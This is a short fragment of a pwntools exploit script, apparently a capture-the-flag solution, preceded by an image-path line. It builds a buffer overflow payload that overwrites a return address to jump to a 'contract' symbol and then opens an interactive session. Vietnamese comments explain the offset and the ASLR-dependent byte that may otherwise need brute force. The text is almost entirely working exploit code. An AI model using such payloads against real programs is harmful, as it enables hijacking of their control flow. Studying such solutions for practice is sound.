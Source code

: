     sl(b'4')

    pl = flat(
        b'd'*28,
        p32(1),
        b'\x1f', #CHAY NO ASLR moi ra chay tren sever cung la byte \x1f con ko thi phai burte force
                # *((_BYTE *)s + i + 280) = safe_buffer; tinh offset sao cho nhap tai return address
        exe.sym.contract,
    )
    sl(pl)


    p.interactive()
